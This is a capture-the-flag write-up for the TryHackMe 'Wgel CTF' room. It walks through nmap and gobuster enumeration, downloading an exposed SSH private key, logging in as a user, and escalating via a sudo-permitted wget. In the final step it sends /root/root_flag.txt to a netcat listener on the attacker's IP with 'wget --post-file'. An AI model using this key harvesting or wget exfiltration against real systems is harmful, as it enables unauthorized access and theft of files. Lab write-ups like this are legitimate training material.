








Wgel CTF
In this write-up, we tackle the "Wgel CTF" room. We will proceed through enumeration to find hidden directories and SSH keys,
gain initial user access, and finally exploit a binary allowed in sudoers to exfiltrate the root flag.
Link to the room: https://tryhackme.com/room/wgelctf
1. Reconnaissance
We start with a standard Nmap scan to check for open ports.
I used the -T4 flag to speed up the process.
$ sudo nmap -T4 10.80.149.228
The scan reveals two main services:
- 22/tcp: SSH
- 80/tcp: HTTP (Apache Server)
2. Web Enumeration
The web server displays a default Apache page. I used Gobuster to find hidden directories and discovered /sitemap.
Upon inspecting the source code of the page found there, I noticed a comment left for a user named Jessie.

This gives us a potential username. Further enumeration on the /sitemap directory revealed a hidden .ssh directory.
$ gobuster dir -u http://10.80.149.228/sitemap -w /usr/share/wordlists/dirb/big.txt
Navigating to that directory allowed me to download a private SSH key (id_rsa).
3. SSH Access
With the username jessie and the private key found, I attempted to log in via SSH. I made sure to set the correct permissions for the key file first.
$ chmod 600 ssh_key
$ ssh jessie@10.80.149.228 -i ssh_keyThe login was successful. I retrieved the user flag from the Documents folder.

User Flag: [REDACTED]
4. Privilege Escalation
To escalate privileges, I checked the user's sudo rights using the command sudo -l.

The output shows that the user jessie can run /usr/bin/wget as root without a password.
This is a significant misconfiguration.
5. Root Flag
I consulted resources like GTFOBins and documentation to see how wget can be abused.
It allows sending files to a remote server using the --post-file option.

I set up a Netcat listener on my attack machine on port 8000 to receive the data.
$ nc -lvnp 8000
Then, on the target machine, I executed the following command to send the content of root_flag.txt to my listener:
$ sudo wget --post-file=/root/root_flag.txt 192.168.145.228:8000
The connection was established, and the root flag was received on my listener!

Root Flag: [REDACTED]